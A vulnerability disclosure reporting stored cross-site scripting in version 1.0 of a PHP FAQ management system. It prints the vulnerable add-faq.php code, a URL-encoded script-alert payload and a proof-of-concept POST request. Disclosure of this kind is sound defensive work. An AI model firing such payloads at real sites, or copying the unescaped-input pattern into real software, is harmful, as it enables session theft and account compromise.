 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [FAQ Management System Using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17175/faq-management-system-using-php-and-mysql-source-code.html) <br/>

**Affected Version**:
> FAQ Management System Using PHP and MySQL 1.0

**Affected Site Page**: 
> /faq-management-system/endpoint/add-faq.php<br/>

**Affected Code**: 
> </add-faq.php> <br/>

There is not input sanitization present when writing FAQs, making the web application vulnerable to XSS.

```php
<?php
include("../conn/conn.php");

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_POST['question'], $_POST['answer'])) {
        $question = $_POST['question'];
        $answer = $_POST['answer'];


        try {
            $stmt = $conn->prepare("INSERT INTO tbl_faq (question, answer) VALUES (:question, :answer)");
            
            $stmt->bindParam(":question", $question, PDO::PARAM_STR);
            $stmt->bindParam(":answer", $answer, PDO::PARAM_STR);

            $stmt->execute();

            header("Location: http://localhost/faq-management-system/");

            exit();
        } catch (PDOException $e) {
            echo "Error:" . $e->getMessage();
        }

    } else {
        echo "
            <script>
                alert('Please fill in all fields!');
                window.location.href = 'http://localhost/faq-management-system/';
            </script>
        ";
    }
}
?>
```

**Related CWE:**
> [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

## **Details:**
> Allows XSS by placing untrusted code on the parameters `question` and `answer`.

Payload used is `%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E` for both parameters.

```http 
POST /faq-management-system/endpoint/add-faq.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 133
Connection: close

question=%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E&answer=%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E
```

![image](https://github.com/smurf-reigz/security/assets/48426940/563ad6be-0e81-4163-9ef9-8c130df16bcf)


## **Vulnerability Impact:**
> Once the malicious script is injected, the attacker can perform a variety of malicious activities. The attacker could transfer private information, such as cookies that may include session information, from the victim's machine to the attacker. The attacker could send malicious requests to a web site on behalf of the victim, which could be especially dangerous to the site if the victim has administrator privileges to manage that site. Phishing attacks could be used to emulate trusted web sites and trick the victim into entering a password, allowing the attacker to compromise the victim's account on that web site. Finally, the script could exploit a vulnerability in the web browser itself possibly taking over the victim's machine, sometimes referred to as "drive-by hacking."
